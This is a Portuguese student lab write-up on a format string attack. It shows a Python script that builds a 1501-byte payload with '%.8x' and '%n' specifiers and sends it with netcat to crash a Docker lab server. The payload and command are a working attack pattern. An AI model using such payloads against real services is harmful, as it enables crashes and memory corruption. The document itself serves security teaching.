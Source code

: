# Semana 7 - Format String Attack

## Task 1

Depois de dar setup deste lab e com o servidor pronto para receber uma mensagem, através do docker, temos como missão crashar o servidor.<br>
Para tal como é referido no guião, o servidor aguenta até 1500 bytes de dados, portanto, para o servidor crashar, precisamos de escrever mais de 1500 bytes de dados para o servidor.<br>
Para fazer isso criamos um ficheiro `badfile` que irá conter a mensagem para enviar para o servidor, e utilizamos o `build_string.py` que contém um script em python para escrever a mensagem para o ficheiro `badfile`.

O `build_string.py` contém o seguinte código:

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1501
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Com o ficheiro pronto para ser enviado, basta enviar a mensagem para o servidor, através do seguinte comando:

`cat badfile | nc 10.9.0.5 9090`

Com isto, o servidor não respondeu com **(^\_^)(^\_^)  Returned properly (^\_^)(^\_^)**, o que significa que crashou.

